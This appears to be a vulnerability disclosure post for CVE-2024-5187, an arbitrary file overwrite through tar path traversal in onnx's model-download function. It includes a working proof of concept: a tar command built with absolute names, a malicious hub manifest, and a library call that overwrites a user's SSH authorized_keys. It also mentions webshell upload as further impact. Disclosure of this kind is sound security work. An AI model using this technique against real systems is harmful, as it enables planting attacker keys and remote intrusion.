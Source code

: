 ```yaml
---
layout: post
title:  "CVE-2024-5187: Arbitrary File Overwrite in onnx"
date:  2024-04-07 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> CVE-2024-5187: Arbitrary File Overwrite in onnx

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

The [download_model_with_test_data](https://onnx.ai/onnx/api/hub.html#download-model-with-test-data) function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. This leads directly leads to a high impact regarding the integrity of files. An attacker could also abuse this to impact the availability, by deleting system files, personal files, or application files. Remote code execution is also possible through various means.

The vulnerable function is exposed through the `download_model_with_test_data` function, which is further used in the onnx framework, as well as can be imported easily.

This code snippet shows how the `download_model_with_test_data` function extracts a tar file downloaded from internet without performing any security checks.

```
def download_model_with_test_data(
    model: str,
    repo: str = "onnx/models:main", # change to attacker's repo
    opset: Optional[int] = None,
    force_reload: bool = False,
    silent: bool = False, # set silent to True
) -> Optional[str]:
    selected_model = get_model_info(model, repo, opset)

    local_model_with_data_path_arr = selected_model.metadata[
        "model_with_data_path"
    ].split("/")

    model_with_data_sha = selected_model.metadata["model_with_data_sha"]
    ...
    local_model_with_data_path = join(
        _ONNX_HUB_DIR, os.sep.join(local_model_with_data_path_arr)
    )

    if force_reload or not os.path.exists(local_model_with_data_path):
        os.makedirs(os.path.dirname(local_model_with_data_path), exist_ok=True)
        lfs_url = _get_base_url(repo, True)
        print(f"Downloading {model} to local path {local_model_with_data_path}")
        _download_file( # download model from github repository
            lfs_url + selected_model.metadata["model_with_data_path"],
            local_model_with_data_path,
        )
    else:
        print(f"Using cached {model} model from {local_model_with_data_path}")

    with open(local_model_with_data_path, "rb") as f:
        model_with_data_bytes = f.read()

    with tarfile.open(local_model_with_data_path) as model_with_data_zipped:
        # FIXME: Avoid index manipulation with magic numbers
        local_model_with_data_dir_path = local_model_with_data_path[
            0 : len(local_model_with_data_path) - 7
        ]
        model_with_data_zipped.extractall(local_model_with_data_dir_path) # just extract without any security checks

    return model_with_data_path
```

The Python documentation explains us that tarfiles may also have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar.gz /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar.gz` as onnx model to his own github repository. Besides, create file `ONNX_HUB_MANIFEST.json` with tar file path(`model_with_data_path`) and sha256 value(`model_with_data_sha`).

Create malicious model repo:

```
git lfs track "*.gz"
git add .
git commit -m 'add gz lfs models'
git push
```

the `ONNX_HUB_MANIFEST.json` metadata file example:

```
[
    {
        "model": "MNIST",
        "model_path": "validated/mnist-8.onnx",
        "onnx_version": "1.3",
        "opset_version": 8,
        "metadata": {
            "model_sha": "",
            "model_bytes": 26454,
            "tags": [
                "vision",
                "classification",
                "mnist"
            ],
            "io_ports": {
                "inputs": [
                    {
                        "name": "Input3",
                        "shape": [
                            1,
                            1,
                            28,
                            28
                        ],
                        "type": "tensor(float)"
                    }
                ],
                "outputs": [
                    {
                        "name": "Plus214_Output_0",
                        "shape": [
                            1,
                            10
                        ],
                        "type": "tensor(float)"
                    }
                ]
            },
            "model_with_data_path": "validated/hack.tar.gz",
            "model_with_data_sha": "786bb632aab30bb574f7f2bab991c56c7707f8d224845f85a16bce32e7980cac",
            "model_with_data_bytes": 26751
        }
    }
]
```
I have create one malicous repo for testing: [https://github.com/sunriseXu/onnx](https://github.com/sunriseXu/onnx)

If anyone now downloads model from online github repository, and `download_model_with_test_data` will extract the malicous tar file and overwrite files specified in tarfile by absolute path silently.

```
from onnx import ModelProto, hub
hub.download_model_with_test_data("mnist",repo="sunriseXu/onnx",force_reload=True,silent=True)
```

```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa xxx hacker@test.com
```

tested in google colab: [https://colab.research.google.com/drive/1m1iJcfp-dETTr013HyYaYJsdetBa-7YA?usp=sharing](https://colab.research.google.com/drive/1m1iJcfp-dETTr013HyYaYJsdetBa-7YA?usp=sharing)

![poc1](https://raw.githubusercontent.com/sunriseXu/onnx/main/img/poc.png)

![poc2](https://raw.githubusercontent.com/sunriseXu/onnx/main/img/poc2.png)

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

SSH Access
On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

Web Servers
On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/onnx/onnx/blob/4128a09009aa67622c6308c82fe4199813a71682/onnx/hub.py#L369](https://github.com/onnx/onnx/blob/4128a09009aa67622c6308c82fe4199813a71682/onnx/hub.py#L369)
